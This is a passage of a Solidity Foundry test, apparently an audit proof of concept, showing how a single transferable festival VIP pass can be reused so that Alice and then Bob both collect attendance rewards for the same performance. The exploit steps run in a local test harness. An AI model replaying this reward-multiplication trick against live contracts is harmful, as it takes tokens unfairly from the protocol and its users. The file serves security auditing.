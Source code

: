 ```Solidity
        charlie = makeAddr("charlie");
        dave = makeAddr("dave");
        
        // Deploy protocol
        vm.startPrank(owner);
        beatToken = new BeatToken();
        festivalPass = new FestivalPass(address(beatToken), organizer);
        beatToken.setFestivalContract(address(festivalPass));
        vm.stopPrank();
        
        // Configure VIP pass
        vm.prank(organizer);
        festivalPass.configurePass(VIP_PASS, VIP_PRICE, VIP_MAX_SUPPLY);
        
        // Create a performance for exploitation
        vm.prank(organizer);
        performanceId = festivalPass.createPerformance(
            block.timestamp + 1 hours,  // starts in 1 hour
            4 hours,                     // lasts 4 hours  
            BASE_REWARD                  // base reward
        );
        
        // Fund Alice to buy the pass
        vm.deal(alice, 1 ether);
    }
    
    function testSinglePassMultipleRewards() public {
        console.log("=== PASS LENDING REWARD MULTIPLICATION EXPLOIT ===\n");
        
        // Alice buys single VIP pass
        console.log("--- Setup: Alice buys 1 VIP pass ---");
        vm.prank(alice);
        festivalPass.buyPass{value: VIP_PRICE}(VIP_PASS);
        
        console.log("Alice VIP balance:", festivalPass.balanceOf(alice, VIP_PASS));
        console.log("Alice BEAT balance (welcome bonus):", beatToken.balanceOf(alice));
        
        // Warp to performance time
        vm.warp(block.timestamp + 2 hours);
        console.log("\n--- Performance starts, exploitation begins ---");
        
        // STEP 1: Alice attends performance and earns rewards
        console.log("STEP 1: Alice attends performance");
        vm.prank(alice);
        festivalPass.attendPerformance(performanceId);
        
        uint256 aliceReward = beatToken.balanceOf(alice) - 5e18; // subtract welcome bonus
        console.log("Alice attendance reward:", aliceReward);
        console.log("Alice has attended:", festivalPass.hasAttended(performanceId, alice));
        
        // STEP 2: Alice transfers pass to Bob
        console.log("\nSTEP 2: Alice transfers VIP pass to Bob");
        vm.prank(alice);
        festivalPass.safeTransferFrom(alice, bob, VIP_PASS, 1, "");
        
        console.log("Alice VIP balance:", festivalPass.balanceOf(alice, VIP_PASS));
        console.log("Bob VIP balance:", festivalPass.balanceOf(bob, VIP_PASS));
        console.log("Bob has pass:", festivalPass.hasPass(bob));
        
        // STEP 3: Bob attends SAME performance with transferred pass
        console.log("\nSTEP 3: Bob attends SAME performance with transferred pass");
        vm.prank(bob);
        festivalPass.attendPerformance(performanceId);
```
